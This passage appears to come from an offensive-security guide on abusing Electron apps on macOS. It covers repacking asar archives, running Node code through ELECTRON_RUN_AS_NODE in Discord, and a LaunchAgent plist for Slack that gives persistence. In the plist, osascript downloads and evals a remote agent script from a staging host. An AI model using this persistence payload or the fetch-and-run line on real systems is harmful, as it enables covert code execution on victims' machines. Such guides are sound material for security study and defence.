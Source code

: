 And pack it back after having modified it with:

```bash
npx asar pack app-decomp app-new.asar
```

## RCE with ELECTRON_RUN_AS_NODE

According to [**the docs**](https://www.electronjs.org/docs/latest/api/environment-variables#electron_run_as_node), if this env variable is set, it will start the process as a normal Node.js process.

```bash
# Run this
ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
# Then from the nodeJS console execute:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```

> [!CAUTION]
> If the fuse **`RunAsNode`** is disabled the env var **`ELECTRON_RUN_AS_NODE`** will be ignored, and this won't work.

### Injection from the App Plist

As [**proposed here**](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks/), you could abuse this env variable in a plist to maintain persistence:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
    </dict>
    <key>Label</key>
    <string>com.xpnsec.hideme</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>-e</string>
        <string>const { spawn } = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
```
